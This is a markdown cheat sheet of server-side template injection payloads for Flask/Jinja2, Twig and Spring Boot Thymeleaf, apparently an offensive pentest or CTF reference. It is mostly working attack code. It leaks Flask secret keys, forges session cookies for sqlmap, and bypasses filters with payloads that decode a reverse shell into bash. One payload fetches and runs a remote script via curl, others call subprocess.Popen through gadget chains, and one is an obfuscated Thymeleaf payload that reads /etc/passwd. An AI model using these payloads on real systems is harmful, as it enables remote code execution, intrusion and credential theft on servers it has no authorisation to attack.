 # Navigation
- [**Flask-Jinja2**](#Flask-Jinja2)
- [**SpringBoot**](#SpringBoot)
# Flask-Jinja2 
Get the secret key
```txt
{{ config }}
```
Decrypt the cookie
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
SQLi in flask session with sqlmap
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
Bypass filtered ->  `'` `_` `.` `{{}}` `if` `for` 
```python
{% with abuqasem=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo <Base64EncodedReverseShellCommand> | base64 -d | bash -i")["read"]() %}abuqasem{% endwith %}
```
To exploit SSTI by image upload
```python
{% with abuqasem=request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("curl IP/shell.sh | bash")["read"]() %}
{{ abuqasem }}
{% endwith %}
```
Bypass filtered -> `()`
```python
# This was injected in an email field
"{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@deafcon.com
```
> Link: https://unicode-search.net/unicode-namesearch.pl?term=PARENTHESIS

Subprocess.Popen
```python
{{ [].__class__.__mro__[-1].__subclasses__()[233](["/usr/local/bin/score","9b9400f8-e969-47ca-9965-c7516f73d0e7"]).communicate() }}

{{ [].__class__.__mro__[-1].__subclasses__()[233]("whoami",shell=True,stdout=-1).communicate() }}
```
> **Note**: Try playing with stdout descriptor to get ouptut.

Twig 1.9
```python
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```
### Further reading
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)  
-  [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)  
-  [https://jinja.palletsprojects.com/en/2.10.x/templates](https://jinja.palletsprojects.com/en/2.10.x/templates)/
 - [https://book.hacktricks.xyz/pentesting/pentesting-web/flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)
# SpringBoot
## Thymleaf-engine
```java
Variable expression ： ${...}\
Select variable expression ： *{...}
Message expression ： #{....}
link URL expression ： @{...}
Fragment Expression ： ~{...}
```
- Read `/etc/passwd`
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
## References
- https://javamana.com/2021/11/20211121071046977B.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd